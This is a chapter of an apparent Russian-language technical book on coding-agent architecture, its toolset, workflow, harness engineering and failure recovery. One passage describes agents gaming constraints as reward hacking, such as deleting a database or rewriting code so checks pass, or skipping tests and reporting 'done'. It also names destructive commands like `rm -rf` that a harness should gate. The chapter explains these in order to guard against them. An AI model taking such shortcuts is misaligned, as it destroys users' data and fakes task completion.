

# Кодинг-агент и генерация кода

В предыдущих главах мы подробно рассмотрели инженерию контекста (главы 2 и 3) и проектирование инструментов (глава 4). В этой главе мы соберём эти элементы вместе и ответим на ключевой вопрос: **как выглядит архитектура универсального агента, способного решать произвольные задачи?**

Ответ: **универсальный агент, ориентированный на открытые задачи**, в своей основе представляет собой **кодинг-агента** (агента, способного самостоятельно писать, изменять и выполнять код) вместе с **файловой системой** — рабочим пространством, которое агент использует для хранения кода, данных, памяти и промежуточных результатов, подобно тому как программист организует проект в папках на своём компьютере. От Manus до OpenClaw успешные универсальные агенты, ориентированные на открытые задачи, следуют этой же парадигме.

Почему генерация кода может взять на себя такую роль? Потому что это не просто инструмент, а **мета-способность** — способность динамически создавать новые инструменты и возможности во время выполнения. Во второй половине главы это понятие будет раскрыто полностью, вместе с шестью направлениями, в которых оно применяется.

Ценность кода для агента проявляется на двух уровнях. На уровне **мышления** формализованный код делает рассуждение предельно строгим — фраза «возраст больше 18 и пройдена верификация личности», выраженная на естественном языке, может пониматься по-разному, а записанная в виде кода не оставляет никакой двусмысленности. На уровне **выражения** работающий код сам по себе служит доказательством логической согласованности, а результат выполнения даёт объективный критерий правильности.

Эта глава начинается с базовых возможностей кодинг-агента и архитектуры универсального агента (OpenClaw), а затем показывает применение генерации кода в самых разных сценариях — от математического мышления и создания контента до системных мета-способностей.

## Кодинг-агент

### Кодинг — базовая способность агента

**Генерация кода — не привилегия узкого круга специализированных агентов, а базовая способность, которой должен обладать любой универсальный агент**. При текущем уровне моделей SOTA обеспечить базовую способность к кодингу не требует сложной архитектуры.

Рассмотрим типичную задачу: «Собрать все оставшиеся в репозитории комментарии TODO, классифицировать их по приоритету и создать issue». Чтобы это сделать, нужно: просмотреть структуру каталогов (ls/glob), прочитать код (read), изменить файлы (edit/write), выполнить команды (bash), найти нужные шаблоны (grep/search). Эти пять категорий операций охватывают практически все базовые действия любого кодинг-агента и именно из них вытекают семь инструментов, которые мы разберём ниже. Строго говоря, эти пять категорий операций естественным образом соответствуют шести инструментам; седьмой — Code Interpreter — соответствует операциям вида «выполнить код / вычисление», и в некоторых реализациях он попросту объединён с Bash. Семь инструментов — это нормализованный эталонный набор, и он не обязан строго соответствовать пяти категориям один к одному.

Базовому кодинг-агенту достаточно семи основных инструментов:

1. **Code Interpreter (интерпретатор кода)**: предоставляет изолированную среду песочницы (sandbox — безопасное пространство выполнения, отделённое от основной системы; код, выполняющийся в ней, даже при ошибке не повлияет на хост-машину), для безопасного выполнения кода на Python
2. **Bash Shell (командная строка терминала)**: выполняет команды в терминале, например запускает тестовые сценарии, обрабатывает файлы специальных форматов
3. **Инструмент чтения файлов**: читает код, конфигурации, документацию, логи и т. д.
4. **Инструмент записи файлов**: создаёт новые файлы или полностью перезаписывает существующие
5. **Инструмент редактирования файлов**: вносит локальные изменения в существующий файл — ключевая операция для сопровождения и итеративной доработки кода
6. **Инструмент поиска по именам файлов (Glob)**: быстро находит целевые файлы в файловой системе по шаблону, например с помощью `**/*.py` можно найти все Python-файлы проекта
7. **Инструмент поиска по содержимому файлов (Grep)**: ищет определённые текстовые шаблоны в содержимом файлов, например все строки кода, вызывающие определённую функцию

Эти семь инструментов образуют полный, но при этом минималистичный набор, который практически любая система агента может интегрировать с минимальными затратами. Все они на уровне реализации могут быть представлены как стандартизированные сервисы инструментов через протокол MCP, описанный в четвёртой главе. Обратите внимание: этот набор инструментов — специфическая базовая конфигурация именно кодинг-агента, и она отличается от пяти категорий универсальных инструментов, выделенных в четвёртой главе по направлению вызова и характеру действия (восприятие/выполнение/сотрудничество/срабатывание события/коммуникация с пользователем) — семь основных инструментов покрывают в основном категории восприятия и выполнения. У читателя может возникнуть вопрос: а как же потребности в сотрудничестве, срабатывании событий и коммуникации с пользователем? — В кодинг-агенте они обычно обрабатываются на уровне фреймворка агента (а не на уровне инструментов), например делегирование подагентам управляется логикой оркестрации фреймворка, а не через специализированный инструмент сотрудничества.

Разберём на простейшем примере, как эти семь инструментов работают вместе. Допустим, пользователь говорит: «Собери все комментарии TODO в проекте в единый список»:

```text
Агент (размышляет): нужно найти все строки кода, содержащие TODO.
Агент → Grep("TODO", glob="**/*.py")          # поиск по содержимому файлов
Результат инструмента:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Агент (размышляет): найдено 3 TODO, соберём их в список и запишем в файл.
Агент → Write("TODO_LIST.md", content="...")   # запись файла
Результат инструмента: файл создан

Агент: готово, найдено 3 пункта TODO, список сохранён в TODO_LIST.md.
```

Во всём процессе использовались только два инструмента — Grep (поиск по содержимому) и Write (запись файла). Если задача сложнее — например, «посчитай количество TODO по каждому модулю и построй столбчатую диаграмму», — агент дополнительно воспользуется Code Interpreter, чтобы выполнить код на Python для статистики и построения графика. Хотя семь инструментов просты, их комбинации позволяют решать очень разнообразные задачи.

Читатель может спросить: почему инструментов семь, а не шесть? На самом деле хватило бы и одного — Bash Shell. OpenAI Codex предоставляет только Bash Shell и выполняет этим единственным инструментом все операции чтения, записи и поиска файлов. Однако некоторые другие агенты всё же сохраняют отдельные инструменты чтения и записи файлов. Семь инструментов в этой книге выделены по отдельности, чтобы читателю было проще понять, какие базовые способности нужны кодинг-агенту.

Почему каждый универсальный агент должен обладать способностью к кодингу? Потому что генерация кода — это не просто написание программ, а универсальный способ решения задач. При математическом рассуждении можно написать код и передать его решателю, чтобы получить точный ответ; чтобы зафиксировать бизнес-правило, код формулирует его гораздо точнее естественного языка; если не хватает какого-то инструмента, можно написать его на лету; если изменился формат данных, можно динамически сгенерировать логику разбора. Далее в главе мы разберём эти сценарии подробно. Агент с базовой способностью к кодингу, даже располагая лишь семью простыми инструментами, перечисленными выше, способен динамически расширять границы своих возможностей при столкновении с новыми требованиями.

### Пример: от Manus к OpenClaw — кодинговое ядро универсального агента

Продукты общего назначения класса Agent, такие как Manus и OpenClaw, объединяют в одной системе три основные способности — Deep Research, Computer Use и Coding. Почему же тогда в начале главы именно Coding Agent был назван ядром, а не любая из двух других?

Потому что почти вся эффективная генерация контента в конечном счёте сводится к коду. Презентации PowerPoint и документы Word по сути являются кодом в формате OOXML (Office Open XML, открытый стандарт Microsoft для офисных документов). PDF-отчёты можно генерировать через Markdown, HTML или LaTeX; скрипты на Python могут выполнять анализ и визуализацию данных; даже успешные последовательности работы в браузере из GUI-режима можно зафиксировать как переиспользуемый код (см. главу 9). Поиск и синтез информации в Deep Research можно реализовать через веб-запросы и парсинг, управляемые кодом. Computer Use более универсален, но прямые вызовы кода или API, как правило, дешевле, быстрее и надёжнее для эквивалентных операций. Генерация кода — самая эффективная, самая недорогая и наиболее переиспользуемая базовая способность.


Рассмотрим конкретный поток выполнения на этой архитектуре. Допустим, пользователь просит: «Help me analyze last quarter's sales data and create a summary report» («Помоги проанализировать данные продаж за прошлый квартал и составь сводный отчёт»):

1. **Чтение памяти**: агент читает `MEMORY.md` и обнаруживает, что пользователь предпочитает отчёты в формате PDF, а источник данных — Google Sheets
2. **Вызов инструмента**: через модуль веб-поиска получает информацию о том, как использовать API Google Sheets, и через выполнение кода загружает данные
3. **Написание кода**: генерирует на Python скрипт анализа данных (агрегация через pandas, визуализация через matplotlib)
4. **Формирование результата**: записывает результаты анализа в `report.pdf`, графики — в каталог `charts/`
5. **Обновление памяти**: записывает в `MEMORY.md` факт «User's sales data is in Google Sheets, ID: xxx» («Данные продаж пользователя находятся в Google Sheets, ID: xxx»), чтобы в следующий раз не спрашивать снова

На протяжении всего процесса файловая система выступает узлом, через который проходит информация: память читается из файлов, результаты записываются в файлы, накопленный опыт также сохраняется в виде файлов.

**Файловая система как центр агента**. В архитектуре OpenClaw файловая система — это гораздо больше, чем просто хранилище данных: она является центром памяти, знаний и возможностей агента. Долговременная память агента хранится в `MEMORY.md` (факты высокого уровня и предпочтения пользователя) и в датированных журналах Markdown. Решение использовать Markdown вместо векторной базы данных выглядит контринтуитивно, но на практике оказывается очень эффективным: пользователь может напрямую открыть файл, прочитать и отредактировать память агента (если агент запомнил что-то неверно, достаточно удалить соответствующую строку), Markdown естественным образом сохраняет хронологический порядок, избегая путаницы во времени, характерной для семантического поиска, а версионирование и откат легко реализуются через Git.

Что ещё важнее, способность агента писать файлы означает наличие технических условий для изменения собственных внешних артефактов. Когда агент впервые выполняет некую задачу и обнаруживает ранее неизвестную ключевую информацию (например, при звонке в банк выясняется, что для подтверждения личности требуется указать адрес отделения, где открыт счёт), он может сначала записать это наблюдение. Определить, когда такой записи уже достаточно, чтобы считать её надёжным знанием, инструкцией или программой, можно лишь с учётом дополнительных траекторий и проверки результатов; именно эта проблема непрерывной эволюции будет рассмотрена в главе 9.

**Граница применимости: у каких агентов кодинг является ядром архитектуры.** Вывод «Coding Agent — ядро универсального Agent» в основном относится к **универсальным Agent, нацеленным на открытые задачи** — таким сценариям, как глубокое исследование, генерация контента и обработка данных, где границы задачи неопределённы, а формы артефактов разнообразны. В этих сценариях невозможно заранее перечислить все нужные инструменты; генерация кода как мета-способность даёт наиболее экономичный путь к динамическому расширению границ возможностей, поэтому она и становится ядром архитектуры. Напротив, вертикальные клиентские Agent работают в относительно закрытых пространствах задач, и их ядровая архитектура строится вокруг фиксированных бизнес-процессов, доменных инструментов и стратегий диалога; там код — это инструмент в наборе, а не архитектурный центр. Однако и в этом случае кодинг остаётся важной базовой способностью: точные вычисления, обработка данных и проверка правил всё равно зависят от него.

Далее обсудим два решения — способ взаимодействия «доступен в любой момент» и архитектуру безопасности, — которые на первый взгляд не связаны с темой кодинг-агента. Однако именно они напрямую определяют, как агент управляет средой выполнения кода и состоянием файловой системы, а это как раз ключевой вопрос кодинг-агента. (Читателям, желающим сначала разобраться, как кодинг-агент работает шаг за шагом, стоит сначала пропустить вперёд к разделу «Общий процесс работы кодинг-агента», а затем вернуться сюда к взаимодействию и безопасности.)

OpenClaw использует подход **Sessionless** (без сессий): нет ни установки, ни входа в систему, ни «открытия приложения» — агент постоянно находится онлайн, и пользователь через уже используемую им платформу обмена сообщениями в любой момент может отправить сообщение и получить ответ. Эта форма взаимодействия и лежащая в её основе архитектура маршрутизации сообщений Gateway и событийно-ориентированный подход уже подробно обсуждались в шестой главе, в разделе про инструмент коммуникации с пользователем, поэтому здесь мы не будем повторяться. Стоит подчеркнуть предпосылку, при которой такая форма вообще возможна: большие модели уже достигли зрелости, достаточной для того, чтобы выполнять роль нового «интеллектуального базиса» — подобно тому, как традиционная операционная система скрывает сложность оборудования и предоставляет верхнему уровню приложений единую абстракцию, большая модель скрывает сложность понимания языка и планирования мышления, предоставляя вышестоящему агенту единую интеллектуальную абстракцию. Именно благодаря этому базису форма «постоянно онлайн + мгновенный отклик» смогла получить дешёвую инженерную реализацию.

Для кодинг-агента реальная инженерная сложность Sessionless заключается в том, **как среда выполнения кода и состояние файловой системы переживают промежутки между сообщениями**. Два сообщения одного пользователя могут быть разделены несколькими минутами, а могут — несколькими днями, при этом работа агента зависит от большого количества неявного состояния: установленных в песочнице зависимостей, рабочего каталога и переменных окружения терминальной сессии, фоновых процессов сервера разработки, недописанных файлов. Подход OpenClaw — управлять состоянием на двух уровнях. **Состояние файловой системы по своей природе персистентно** — каталог рабочей области (workspace) монтируется на постоянное хранилище вне песочницы, поэтому код, данные и промежуточные результаты не теряются ни между сообщениями, ни при перезапуске песочницы — это ещё один смысл тезиса «файловая система как центр агента». **Состояние процессов же поддерживается или пересоздаётся по мере необходимости** — песочница и терминальные сессии в ней остаются активными в период активности, чтобы избежать холодного запуска, повторной смены каталога и повторной активации виртуального окружения при каждом сообщении; после простоя, превышающего таймаут, они уничтожаются для высвобождения ресурсов, но перед уничтожением сериализуемое состояние среды (рабочий каталог, переменные окружения, список фоновых задач) записывается в файлы рабочей области, и при следующем пробуждении агент восстанавливает состояние по этой записи. Персистентная терминальная сессия, которая будет обсуждаться далее в разделе «Персистентность состояния среды выполнения команд», — это тот же механизм, только применённый в масштабе одной задачи; Sessionless растягивает ту же проблему на масштаб между сообщениями и между днями.

Sessionless — не решение «без обслуживания»: оно означает, что при каждом сообщении пользователя требуется **заново загружать полную траекторию и рабочее состояние**, а значит предъявляет более высокие требования к эффективности сериализации состояния и стратегии сжатия траектории; принципы проектирования самого сжатия траектории уже обсуждались во второй главе в разделе «Стратегии сжатия контекста», а здесь мы сосредоточимся на инженерных компромиссах в рамках именно архитектуры Sessionless.

### Общий процесс работы кодинг-агента


**Документирование проекта.**

Работа кодинг-агента начинается с систематического понимания проекта. Когда агент впервые сталкивается с кодовой базой, его первая задача — не сразу браться за правки кода, а построить каркас понимания всего проекта, как новый инженер, который в первый день не коммитит код сразу, а сначала знакомится со структурой проекта. Агент прежде всего проверяет, есть ли в проекте документация — README, документ по архитектуре, руководство для разработчиков.

Если ключевая документация отсутствует, агент не должен работать вслепую, а должен взять на себя ответственность за документирование — систематически прочитать кодовую базу, выявить основные модули, ключевые абстракции, зависимости между компонентами, и сгенерировать первоначальную документацию с обзором архитектуры, структурой каталогов, инструкцией по запуску тестов. Этот документ одновременно служит планом для дальнейшей работы агента и точкой входа для других разработчиков. Здесь проявляется ключевой принцип: явное представление знаний — предпосылка эффективного сотрудничества.

У документирования проекта сегодня есть специальная форма для агентов: **файл с инструкциями для проекта**. CLAUDE.md, AGENTS.md, .cursorrules и подобные файлы стали фактическим стандартом отрасли — они автоматически подгружаются в контекст в начале каждой сессии, выполняя роль системного промпта уровня проекта. В отличие от README, ориентированного на человека-читателя, файл с инструкциями несёт поведенческие соглашения, ориентированные на агента: команды сборки и тестирования («используй `pnpm test`, а не `npm test`»), стиль кода («запрещён тип any»), явные запретные зоны («не трогай каталог `migrations/`»). Это тот же подход, что и `SOUL.md` у OpenClaw (определяет идентичность и правила поведения агента), `MEMORY.md` (накапливает опыт между сессиями), только на другом уровне: SOUL.md задаёт «кто есть агент», а файл с инструкциями проекта задаёт «как работать в этом проекте». С точки зрения инженерии контекста из второй главы, файл с инструкциями — ещё и самый экономичный стабильный префикс: его содержимое не меняется от задачи к задаче, поэтому он естественно дружелюбен к KV Cache; это же самое прямое воплощение принципа «знания должны существовать в самой кодовой базе».

У принципа явного представления знаний есть интересное следствие: **команды, дружелюбные к удалённой работе, как правило, дружелюбны и к ИИ-агентам**. Удалённые команды вынуждены полагаться на асинхронную коммуникацию и документирование — решения записываются в документы, контекст пишется в описаниях issue и PR, знания племени фиксируются в руководствах для разработчиков, а не передаются устно у соседнего стола или на доске в переговорке. Это в точности та форма знаний, которую может потреблять агент: агент не может прочитать устные договорённости, но может прочитать документ с дизайном. И наоборот, команда, сильно зависящая от «спроси у соседа», одинаково трудна как для нового удалённого сотрудника, так и для агента. Простой прокси-метрика для оценки «готовности команды к AI»: сможет ли новый удалённый сотрудник, опираясь только на кодовую базу и документацию, самостоятельно начать работать.

**Понимание задачи и уточнение требований.**

Для простых требований с чёткими границами и ограниченным охватом влияния — например, исправление известного бага, изменение параметра функции — агент может сразу переходить к реализации. Однако большинство задач в разработке ПО не такие простые.

Для сложных требований агент должен действовать более осторожно и последовательно. Сложность может исходить из нескольких измерений: неоднозначность самого требования (пользователь знает, чего хочет, но не может точно выразить), многообразие путей реализации (несколько технических решений на выбор, у каждого свои компромиссы), или широта охвата влияния (нужно изменить несколько модулей, есть риск сломать существующий функционал). Агент должен прояснять границы через исследовательский анализ, при необходимости — вступать в диалог с пользователем. Например, когда пользователь просит «оптимизировать производительность системы», агенту сначала нужно выяснить: какова конкретная цель оптимизации (снизить время отклика, уменьшить потребление памяти или повысить пропускную способность), какие компромиссы приемлемы (допустимо ли увеличение сложности кода), и где сейчас узкое место. Начало кодирования при неясных требованиях часто приводит к большому объёму переделок.

**Написание документа с дизайном.**

Документ с дизайном — это мост, превращающий абстрактные требования в конкретный план реализации; он должен отвечать на ключевые вопросы: какие модули изменяются и почему, какой подход выбран и в чём его относительные преимущества, какие новые зависимости нужно ввести, каково ожидаемое влияние на систему. Написание документа с дизайном само по себе является глубоким размышлением — оно заставляет агента проверить жизнеспособность решения на концептуальном уровне ещё до того, как вложено много сил в кодирование. Что ещё важнее, документ с дизайном даёт человеку эффективную точку вмешательства — рецензировать краткий документ гораздо проще, чем рецензировать сотни строк кода. После завершения документа с дизайном агент должен отправить его пользователю на рецензию и дождаться одобрения перед продолжением.

**Реализация кода и тестирование.**

Получив одобрение дизайна, агент реализует решение, следуя стандартам кода проекта, переиспользуя существующие абстракции и инструменты, при необходимости проводя умеренный рефакторинг для поддержания здоровья кодовой базы.

Сразу после завершения реализации наступает этап обеспечения качества, управляемый тестированием, — пишутся тестовые случаи для новой или изменённой функциональности, покрывающие нормальный путь выполнения, граничные условия и исключительные ситуации. После написания тестов запускается набор тестов. Если тесты не проходят, агент не должен просто сообщать пользователю о провале — он должен проанализировать причину, локализовать проблему и менять код, пока все тесты не пройдут. Этот цикл «тест — исправление» может потребовать нескольких итераций, и именно эта способность к самокоррекции превращает кодинг-агента из генератора кода в надёжного инженерного помощника. С обратной стороны, самый распространённый способ отлынивания у кодинг-агента — пропустить именно этот этап: написать код, не запустить тесты и доложить «задача выполнена». Определение критерия завершения как «тесты пройдены», а не «код написан» — это прямое воплощение принципа Loop-инженерии «проверка определяет, когда можно остановиться» в контексте кодинга.

Даже если все тесты пройдены, работа агента ещё не закончена. Далее идёт этап ревью кода: агент критически рассматривает написанный им самим код — насколько он читаем, достаточно ли комментариев; есть ли потенциальные проблемы производительности или уязвимости безопасности; соблюдается ли стиль кода и лучшие практики проекта. Это самостоятельное ревью можно реализовать через чтение кода, запуск lint-инструментов или вызов специализированного суб-агента ревью кода (Sub-Agent). Если ревью выявляет проблемы, следует вернуться на этап доработки, а не поставлять дефектный код пользователю.

**Синхронизация документации и сдача результата.**

Если изменения кода затрагивают архитектурный уровень — например, вводится новый модуль, меняются зависимости между модулями, меняется семантика ключевых абстракций — агент должен соответственно обновить документацию по архитектуре. Устаревшая документация хуже, чем отсутствие документации, потому что она вводит будущих разработчиков в заблуждение. Автоматически обновляя документацию после каждого важного изменения, агент помогает поддерживать полноту и актуальность базы знаний проекта.

Этот процесс воплощает ключевые принципы software engineering: планирование предшествует действию, проверка пронизывает весь процесс, документация и код развиваются совместно.

Заметьте, что описанный выше процесс — это **рекомендуемый инженерный рабочий процесс**. Реальные Coding Agents (такие как Claude Code и Codex) по мере необходимости сокращают его: простая задача на исправление бага пропускает этап подготовки дизайн-документа, тогда как только сложные и широкие по охвату задачи проходят все стадии полностью.

Разные модели сокращают этот рабочий процесс по-разному. Некоторые Coding-модели до первой правки широко изучают структуру репозитория, реализацию, места вызова и тесты. Другие просматривают лишь несколько файлов, которые с наибольшей вероятностью имеют значение, рано вносят патч и рассматривают обратную связь компилятора и тестов как часть исследования. Этот порог — когда прекращать сбор информации и начинать действовать — может сохраняться за моделью и после смены harness, а также меняться при замене самой модели внутри того же harness. Поэтому это прежде всего **усвоенное поведение модели**, а не просто стиль интерфейса Coding-продукта. Промпты, инструменты и бюджеты в harness по-прежнему могут усиливать или подавлять его, но не обязаны быть его источником. Глава 7 измеряет это различие в фиксированном harness; глава 8 затем объясняет, как постобучение может записать такую политику в параметры.

### Практика Harness-инженерии в кодинг-агентах

В первой главе была введена концепция Harness-инженерии и формула **Агент = Модель + Harness**. Harness здесь включает в себя контекст и инструменты из ключевой формулы, а также механизмы ограничения, проверки и исправления — все пять компонентов вместе образуют Harness, определённый в первой главе. Кодинг-агент, пожалуй, область, где Harness-инженерия приносит наибольшую выгоду — написание кода относится к категории задач с **наивысшей проверяемостью** среди всех задач для агентов, а ограничения, проверка и исправление могут опираться на уже готовую инфраструктуру. Этот раздел посвящён конкретным практикам в сценарии кодинг-агентов.

Стабильность работы часто зависит не от того, насколько мощная используется модель, а от того, насколько прочна инфраструктура, выстроенная вокруг агента. Первая глава разделила Harness на два уровня — **контекст и инструменты** (позволяют агенту что-то делать) и **ограничение, проверка и исправление** (не дают агенту делать что-то неправильно). В сценарии кодинг-агента они воплощаются в конкретных инженерных компонентах:

- **Базовый критерий приёмки**: что считается «сделано» — набор тестов, CI-конвейер (конвейер непрерывной интеграции, набор автоматических проверок, запускаемых после коммита кода), стандарты ревью кода
- **Границы выполнения**: чего агенту можно касаться, а чего нельзя — границы модулей, правила зависимостей, контроль прав доступа
- **Сигналы обратной связи**: автоматическая оценка правильности — вывод Linter (инструмент проверки соответствия стилю кода, автоматически находит ошибки форматирования и потенциальные проблемы), результаты тестов, ошибки проверки типов
- **Средства отката**: как восстановиться при проблеме — контроль версий Git, изоляция в песочнице, откат к снапшоту

**Почему кодинг-агент особенно подходит для Harness-инженерии.**

Задачи можно разбить на четыре состояния по двум измерениям: чёткость цели и степень автоматизации проверки. Область, где цель ясна и результат можно проверить автоматически, наиболее подходит для раскрытия возможностей агента; когда цель ясна, но приёмка всё равно требует человека, потолок пропускной способности определяется скоростью человеческого ревью; при наличии автоматической обратной связи, но размытой цели, система эффективно движется в неверном направлении; когда отсутствует и то и другое, агент практически бесполезен. В табл. 5-1 показаны эти четыре состояния; цель Harness — перевести как можно больше задач в квадрант «цель ясна + проверка автоматизирована».

Табл. 5-1 Четыре квадранта по чёткости задачи и степени автоматизации проверки

| | Результат проверяется автоматически | Результат требует ручной проверки |
|----------|----------------------------------------------|---------------------------------------|
| **Цель ясна** | Наилучшая область: исправление бага с тестовым случаем | Ограниченная пропускная способность: рефакторинг кода требует ручного ревью |
| **Цель размыта** | Эффективное движение не туда: оптимизация «качества кода» с помощью linter | Трудно начать: «сделай интерфейс красивее» |

Написание кода естественным образом находится в центре этого квадранта — набор тестов даёт чёткий критерий приёмки, Linter и проверка типов дают мгновенную автоматическую проверку, Git даёт идеальный контроль версий и возможность отката. Это объясняет, почему кодинг-агент — самый зрелый из всех типов агентов на сегодня: не потому, что модели генерации кода особенно сильны, а потому, что инфраструктура, накопленная software engineering за десятилетия, естественным образом составляет мощный Harness.

**Отраслевая практика.**

Практика Harness в трёх кейсах подтверждает вышеизложенные принципы:

- **Кейс крупномасштабной миграции кода** (из публичного рассказа о практике крупномасштабной миграции кода в одной крупной технологической компании): дело не в силе модели, а в том, что Harness правильно решил три вещи — знания должны существовать в самой кодовой базе (то, что агент не видит, для него не существует), ограничения кодируются в Linter и CI, а не описываются в документации, проверка и исправление автоматизированы по всей цепочке.
- **LangChain**: только за счёт оптимизации Harness (системный промпт, промежуточное ПО для инструментов, цикл самопроверки) заметно улучшил результаты на эталонных задачах. Особенно стоит отметить методологию «использовать агента для анализа неудачных траекторий с целью улучшения Harness», которая переводит Harness-инженерию с ручного опыта на управление данными.
- **Anthropic**: разбивает длительную задачу на две роли — агент инициализации отвечает за разбиение большой задачи на список подзадач, агент исполнения отвечает за пошаговое продвижение и оставляет промежуточные результаты (например, уже готовые файлы кода, обновлённый список задач и т.д.) для использования в следующем раунде. Такое разделение труда решает проблему длительно работающего агента «хочет сделать слишком много за раз» или «преждевременно заявляет о завершении».

**От кодинг-агента к общим принципам проектирования Harness.**

Практика Harness в кодинг-агентах даёт переносимые принципы проектирования для всех агентных систем:

1. **Ограничение важнее указания**: правило, которое можно принудительно закрепить в коде, не стоит оставлять в виде документарной рекомендации. Правила Linter, ограничения типов, проверки CI ценнее, чем указания вида «пожалуйста, следуй...» в системном промпте — первое означает «нельзя сделать», второе — лишь «рекомендация не делать».
2. **Проверка должна быть автоматизирована**: ручное ревью — не масштабируемое узкое место. Инвестиции в такую инфраструктуру, как набор тестов, проверки качества кода, мониторинг поведения, окупаются намного больше, чем наращивание штата.
3. **Чем быстрее обратная связь и чем она структурированнее — тем лучше**: чем детальнее сообщение об ошибке и чем ближе оно к моменту возникновения ошибки, тем выше эффективность исправления агентом. Технология строки состояния агента из второй главы (подробные сообщения об ошибках, счётчик вызовов инструментов) — как раз воплощение этого принципа.
4. **Откат должен быть надёжным**: агент способен смело экспериментировать только внутри страховочной сетки. Ветки Git, изолированные среды, механизмы снапшотов гарантируют, что любая ошибка обратима.

**Ещё одна цель ограничений: предотвращение процессных ошибок.** Базовый критерий приёмки контролирует правильность результата, границы выполнения контролируют **процесс** — даже если результат правильный, достижение его неправильным методом недопустимо. Устранение сбоя базы данных путём прямого удаления базы и её пересоздания — «исправление» действительно сработало, но данные потеряны; устранение ошибки компиляции путём удаления и переписывания всего кода — компиляция действительно проходит, но реализация потеряна. Такие разрушительные короткие пути всегда существуют: даже если ограничение прописано в итоговой метрике оценки, агент часто может найти способ обойти его — это как раз повседневное проявление reward hacking в задачах для агентов, которое будет обсуждаться в седьмой главе. Поэтому production-Harness должен устанавливать специальные проверки и утверждения для таких опасных действий, как `rm -rf`, удаление промышленных данных, перезапись непрочитанных файлов (семантический разбор в разделе безопасности этой главы, повторная проверка через Sidecar в четвёртой главе) — ограничение накладывается на **действие**, а не только на результат. RLVP из седьмой главы (штраф за путь верификации, «награда за результат, штраф за путь») отвечает на тот же вопрос со стороны обучения: помимо награды за итоговый результат, накладывается штраф за проверяемые в процессе нарушения, что интернализирует «не использовать разрушительные методы» как инженерный здравый смысл модели. Для уже существующих моделей ограждения Harness — это внешнее ограничение; для обучаемых моделей штраф за процесс — это внутренняя интернализация — цели у обоих совпадают.

**Оркестрация инструментов: контроль границ сбоя**. Зрелые кодинг-агенты поддерживают параллельный вызов инструментов, и уникальный вопрос с точки зрения Harness — **как распространяется сбой**: если один инструмент дал сбой, какие вызовы должны быть прерваны, а какие продолжены? Принцип таков: сбой распространяется только внутри той же партии параллельных вызовов и не поднимается до родительской операции — например, при одновременном чтении трёх файлов, если один не найден, следует сообщить о сбое только по нему, а не отменять два других и уж тем более не прерывать всю задачу. Такой точный контроль границ сбоя избегает хрупкого паттерна «сбой одной команды прерывает всю задачу». Конкретные механизмы параллельных вызовов, потокового разбора и каскадного прерывания рассматриваются в разделе «Приёмы реализации» этой главы.

### Сбои и восстановление после ошибок

В прошлом разделе были изложены принципы и компоненты Harness-инженерии. В этом разделе мы углубимся в тему, где разница в качестве инженерной работы проявляется сильнее всего — **сбои и восстановление после ошибок**. Абляционное исследование из первой главы уже показало серьёзность проблемы: одного лишь отсутствия обратной связи с результатом инструмента достаточно, чтобы агент застрял в бесконечном цикле, а в реальной продакшн-среде сбои гораздо разнообразнее, чем в эксперименте. Этот раздел системно отвечает на три вопроса: с какими сбоями сталкивается production-уровневый Harness? Как их обнаруживать и восстанавливаться после них? И в какой момент нужно обязательно прекращать попытки[^ch5-3]?

[^ch5-3]: Классификация сбоев и анализ механизмов в этом разделе основаны на изучении исходного кода production-реализаций агентов, таких как Claude Code. Конкретные реализации быстро эволюционируют от версии к версии, поэтому здесь мы выделяем лишь устойчивые инженерные принципы.

**Таксономия сбоев: четыре уровня.** Первый шаг системы реагирования — классификация. По месту возникновения сбои делятся на четыре уровня:

- **Уровень API**: ограничение частоты запросов (HTTP 429), перегрузка сервиса, тайм-ауты запросов, обрыв соединения, обрезка вывода при достижении лимита. Такие сбои не связаны с содержанием задачи — это шум инфраструктуры.
- **Уровень инструментов**: галлюцинаторные вызовы (вызов несуществующего инструмента), некорректные параметры (не соответствующие ограничениям на входные данные инструмента), исключения при выполнении, и самое опасное — инструмент раз за разом возвращает одну и ту же ошибку, а модель без изменений повторяет попытку снова.
- **Уровень контекста**: переполнение окна контекста, сбой сжатия, повреждение структуры траектории (например, вызов инструмента без парного сообщения с результатом).
- **Уровень потока управления**: мёртвый цикл (повторение одного и того же действия без какого-либо прогресса) и спираль смерти (когда логика восстановления, запущенная ошибкой, сама вызывает LLM, снова получает ошибку, и запускается цепная реакция).

**Обнаружение: сначала классификация, потом подсчёт.** Первое решение после перехвата сбоя — не «стоит ли повторить попытку», а «имеет ли смысл её повторять». Повторяемые ошибки (ограничение частоты, перегрузка, сетевые сбои) имеет смысл повторять; неповторяемые ошибки (некорректные параметры, недостаточные права, несуществующий инструмент) при повторной попытке в неизменном виде дадут тот же результат — нужно менять вход или политику. Production-уровневый Harness ведёт таблицу соответствия «ошибка → стратегия восстановления», а не действует по принципу «при ошибке — повторить».

